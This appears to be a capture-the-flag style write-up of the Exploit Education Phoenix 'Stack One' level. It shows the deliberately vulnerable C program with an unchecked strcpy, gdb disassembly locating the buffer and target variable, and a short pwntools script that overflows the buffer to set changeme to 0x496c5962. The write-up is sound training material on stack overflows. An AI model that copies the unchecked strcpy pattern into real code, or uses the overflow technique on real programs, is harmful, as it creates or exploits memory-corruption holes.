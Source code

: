 ```yaml
---
title: "Phoenix - Stack One"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "This code uses **strcpy** function which is dangerous because the source size could be more than destination size.
The only difference from this level and the previous one is that it requires **changeme** to be set to a specific value **0x496c5962**."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

This code uses **strcpy** function which is dangerous because the source size could be more than destination size.

The only difference from this level and the previous one is that it requires **changeme** to be set to a specific value **0x496c5962**.

Now we can use gdb:

```
$ gdb -q /opt/phoenix/amd64/stack-one
Reading symbols from stack-one...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
   0x000000000040066d <+0>:	push   rbp
   0x000000000040066e <+1>:	mov    rbp,rsp
   0x0000000000400671 <+4>:	sub    rsp,0x60
   0x0000000000400675 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   .....
```

We can see that  **buffer** is at **rbp-0x50** (main+69) and **changeme** is at **rbp-0x10** (main+51) so we need 64 characters to fill this gap then we can overwrite **changeme** value.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x496c5962)

print(buff)
```

```
$ /opt/phoenix/amd64/stack-one $(python solve.py)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



